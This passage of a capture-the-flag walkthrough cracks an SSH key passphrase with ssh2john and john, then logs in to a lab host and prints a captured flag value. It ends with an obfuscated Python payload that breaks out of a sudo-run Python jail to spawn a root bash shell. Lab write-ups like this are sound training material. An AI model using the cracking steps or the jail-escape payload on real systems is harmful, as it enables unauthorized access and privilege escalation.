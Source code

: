 We can try brute-forcing the passphrase. First, we use ssh2john to convert it to a format that john can work with.
```bash
ssh2john id_rsa > sh_key.hash
```

```bash
locate john | grep ssh
/opt/john/ssh2john.py id_rsa > sh_key.hash
cat sh_key.hash
john sh_key.hash -w /root/Tools/wordlists/rockyou.txt --format=ssh
```

Show the cracked passphrase (if found):
```bash
john --show /root/sh_key.hash
```


password:
a123456

id_rsa:a123456

adjust the permissions of the id_rsa file:
```bash
chmod 600 /root/id_rsa
```


connect
```bash
ssh -i id_rsa youcef@10.10.57.160

ls

ls -la

cd .ssh

cat user2.txt
```

second flag:
```bash
df5b1b7f4f74a416ae276773b22633c1b
```


Time To Get Root!

Checking priveleges of Youcef
```bash
sudo -l

sudo /usr/bin/python3 /root/jail.py
```

Break the jail:
```bash
print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__[f'SYSTEM'.casefold()]('BASH'.casefold()))
```

